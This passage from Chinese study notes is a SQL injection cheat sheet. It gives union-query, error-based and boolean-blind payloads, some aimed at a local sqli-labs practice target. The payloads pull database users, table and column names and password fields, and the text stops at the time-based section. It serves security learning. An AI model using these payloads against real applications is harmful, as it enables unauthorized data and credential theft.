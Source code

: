 #### **union query**

提前：页面可以显示数据库查询结果

- `id=1 ORDER BY 5` #猜测字段数
- `id=-1 UNION SELECT 1,2,3,4,5` #测试哪个字段有回显
- `id=-1 UNION SELECT 1, concat(user(), 0x2b, database()), 3, 4` #获取数据库用户和数据库名
- `id=-1 UNION SELECT 1, group_concat(distinct table_name), 3, 4 FROM information_schema.tables WHERE table_schema=database()` #获取表名
- `id=-1 UNION SELECT 1, group_concat(distinct column_name), 3, 4 FROM information_schema.columns WHERE table_name='user'` # 获取列名
- `id=-1 UNION SELECT 1, concat(id, 0x2b, name, 0x2b, password), 3, 4 FROM user` #获取具体数据

sqli-labs 靶场练习：

- [`http://192.168.10.10:8081/Less-1/?id=1](http://192.168.10.10:8081/Less-1/?id=1)' ORDER BY 3%23` #判断字段数
- [`http://192.168.10.10:8081/Less-1/?id=1](http://192.168.10.10:8081/Less-1/?id=1)' AND 1=2 UNION SELECT 1,2,3%23` # 测试哪个字段有回显
- [`http://192.168.10.10:8081/Less-1/?id=1](http://192.168.10.10:8081/Less-1/?id=1)' AND 1=2 UNION SELECT 1,2, concat(user(), 0x2b, database())%23` #获取数据库用户和数据库名
- [`http://192.168.10.10:8081/Less-1/?id=1](http://192.168.10.10:8081/Less-1/?id=1)' AND 1=2 UNION SELECT 1,2, group_concat(DISTINCT table_name) FROM information_schema.tables WHERE table_schema=database()%23` #获取表名
- [`http://192.168.10.10:8081/Less-1/?id=1](http://192.168.10.10:8081/Less-1/?id=1)' AND 1=2 UNION SELECT 1,2, group_concat(DISTINCT column_name) FROM information_schema.columns WHERE table_name='users'%23` # 获取列名
- [`http://192.168.10.10:8081/Less-1/?id=1](http://192.168.10.10:8081/Less-1/?id=1)' AND 1=2 UNION SELECT 1,2,concat(id, 0x2b, username, 0x2b, password) FROM users WHERE id=5%23` #获取具体数据

#### **error based**

前提：应用可以输出数据库报错信息

- `AND (SELECT 1 FROM (SELECT count(*), concat(version(), floor(rand(0)*2))x FROM information_schema.tables GROUP BY x)a)`
- `AND 1=(updatexml(1, concat(0x3a, (SELECT user())), 1))`
- `AND extractvalue(1, concat(0x5c, (SELECT user())))`
- `AND exp(~(SELECT * FROM (SELECT user())a))`

#### **boolean based blind**

前提：条件真假页面有差别，可区分。可根据返回页面不同判断条件真假

需要一位一位字符猜解，常用的函数 `substr` / `ascii` / `mid` 

- `if (substr(flag, 1, 1) in (0x66), 3, 0)`
- `SELECT CASE WHEN ascii(mid((SELECT flag FROM flag), 1, 1))=65 THEN ‘A’ ELSE ‘B’ END`
- `CASE WHEN 1=1 THEN 1 ELSE 1/0 END`
- `SELECT user FROM user WHERE user=(SELECT CASE WHEN ascii(mid((SELECT pass FROM user LIMIT 0, 1), 1, 1))>0 THEN ‘admin’ ELSE ‘ ‘ END);`

#### **time based blind**

前提：在其他注入方式使用不了的情况下才会考虑时间盲注，需要借助时间延迟函数或其他方式达到时延的效果来判断条件真假
